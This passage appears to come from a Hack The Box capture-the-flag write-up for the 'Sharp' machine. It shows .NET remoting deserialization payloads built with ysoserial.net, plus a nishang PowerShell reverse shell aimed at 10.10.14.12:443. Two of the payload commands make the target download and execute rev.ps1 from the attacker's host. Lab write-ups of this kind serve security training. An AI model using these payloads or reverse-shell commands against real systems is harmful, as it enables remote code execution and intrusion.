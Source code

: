 Checking the Output-log, we can see that the solution successfully compiled.

![Successfully compiled](/assets/htb/Sharp/vs/compiled-successful.png)

We can now access the binary at: `bin\Release\ExploitRemotingService.exe`.

### Serialization payload generation

Next, let us generate the serialization payload using ysoserial.net. As mentioned in the third article we can use following command to create a payload:

```powershell
PS> ysoserial.exe –o base64 –g TypeConfuseDelegate –f BinaryFormatter –c "<COMMAND>"
```

Let us use nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) to get a reverse-shell. On the Commando VM the file is located at: `C:\Tools\nishang\Shells\`. Let us copy the reverse-shell to our folder and change it so it immediately executes the reverse-shell.

```powershell
PS> copy "C:\Tools\nishang\Shells\Invoke-PowerShellTcp.ps1" rev.ps1
```

Now we add this line to the end of the file:

```powershell
function Invoke-PowerShellTcp
{...
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 443
```

Now we can generate a payload for the server to download our reverse-shell and execute it.

```powershell
PS> ysoserial.exe -o base64 -g TypeConfuseDelegate -f BinaryFormatter -c 'powershell -c IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.12/rev.ps1")'
<BASE64-ENCODED PAYLOAD>
```

For some reason, this payload never succeeded, so I changed it to: 

```powershell
PS> ysoserial.exe -o base64 -g TypeConfuseDelegate -f BinaryFormatter -c 'powershell -c mkdir C:\temp; wget 10.10.14.12/rev.ps1 -o C:\temp\rev.ps1; C:\temp\rev.ps1'
```

Which does the same thing, but this time saves the script to disk.

### Running the .NET remoting exploit
